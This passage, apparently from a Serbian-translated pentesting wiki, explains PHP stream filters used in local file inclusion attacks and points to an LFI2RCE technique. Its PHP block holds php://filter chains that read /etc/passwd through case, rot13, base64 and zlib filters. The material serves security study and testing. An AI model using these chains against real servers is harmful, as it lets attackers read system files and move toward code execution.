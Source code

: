 {% hint style="warning" %}
Zloupotrebom `convert.iconv.*` filtera za konverziju možete **generisati proizvoljan tekst**, što može biti korisno za pisanje proizvoljnog teksta ili izvršavanje funkcije poput uključivanja proizvoljnog teksta. Za više informacija pogledajte [**LFI2RCE putem php filtera**](lfi2rce-via-php-filters.md).
{% endhint %}

* [Filteri za kompresiju](https://www.php.net/manual/en/filters.compression.php)
* `zlib.deflate`: Kompresuje sadržaj (korisno ako se izvlači puno informacija)
* `zlib.inflate`: Dekompresuje podatke
* [Filteri za enkripciju](https://www.php.net/manual/en/filters.encryption.php)
* `mcrypt.*` : Zastarelo
* `mdecrypt.*` : Zastarelo
* Ostali filteri
* Pokretanjem `var_dump(stream_get_filters());` u PHP-u možete pronaći nekoliko **neočekivanih filtera**:
* `consumed`
* `dechunk`: vraća HTTP chunked kodiranje
* `convert.*`

```php
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
echo file_get_contents("php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=");
=C2=A3hellooo=3D
## convert.iconv.utf-8.utf-16le
echo file_get_contents("php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=");

# Compresion Filter
## Compress + B64
echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd");
readfile('php://filter/zlib.inflate/resource=test.deflated'); #To decompress the data locally
# note that PHP protocol is case-inselective (that's mean you can use "PhP://" and any other varient)
```
